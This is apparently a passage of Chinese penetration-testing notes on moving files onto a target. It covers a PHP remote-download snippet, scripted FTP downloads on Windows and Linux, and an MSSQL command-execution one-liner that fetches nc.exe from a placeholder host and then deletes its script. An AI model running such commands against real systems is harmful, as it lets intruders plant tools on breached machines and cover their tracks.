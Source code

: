![](./pic/4/6.jpg)  

##### 其他传输方式
1、php脚本文件下载  
```
<?php
        $data = @file("http://example.com/file");
        $lf = "local_file";
        $fh = fopen($lf, 'w');
        fwrite($fh, $data[0]);
        fclose($fh);
?>
```

2、ftp文件下载  
```
>**windows下**
>ftp下载是需要交互，但是也可以这样去执行下载
open host
username
password
bin
lcd c:/
get file
bye
>将这个内容保存为1.txt， ftp -s:"c:\1.txt"
>在mssql命令执行里面(不知道为什么单行执行一个echo,总是显示两行),个人一般喜欢这样
echo open host >> c:\hh.txt & echo username >> c:\hh.txt & echo password >>c:\hh.txt & echo bin >>c:\hh.txt & echo lcd c:\>>c:\hh.txt & echo get nc.exe  >>c:\hh.txt & echo bye >>c:\hh.txt & ftp -s:"c:\hh.txt" & del c:\hh.txt

>**linux下**

>bash文件
ftp 127.0.0.1
username
password
get file
exit

>或者使用busybox里面的tftp或者ftp
>busybox ftpget -u test -P test 127.0.0.1 file.zip
```
